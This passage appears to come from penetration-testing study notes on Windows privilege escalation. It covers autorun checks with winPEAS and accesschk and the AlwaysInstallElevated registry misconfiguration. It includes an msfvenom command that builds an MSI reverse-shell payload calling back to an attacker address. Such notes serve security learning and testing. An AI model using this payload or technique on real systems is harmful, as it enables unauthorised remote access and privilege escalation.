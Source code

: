 
![Autorun program found by winPEAS](<../../.gitbook/assets/image (9) (1) (1) (1).png>)

Validate the above output with accesschk to make sure that the output is correct (this may not always be feasible, obviously)

![Validating permissions](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

AlwaysInstallElevated

MSI files are package files used to install applications, they run as the user trying to install them.\
Windows allows for these installers to be run elevated\
If this is the case, we can generate a malicious MSI file which contains a reverse shell.\
2 registry keys **MUST be configured** for this to work:

* The "**AlwaysInstallElevated**" value must be set to 1 for both the local machine and the current user
* HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
* HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

![Showing the registry keys are set to TRUE](<../../.gitbook/assets/image (13) (1) (1).png>)

_**Create the .msi reverse shell package**_

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.ms
```

**Move it to the windows machine and trigger**
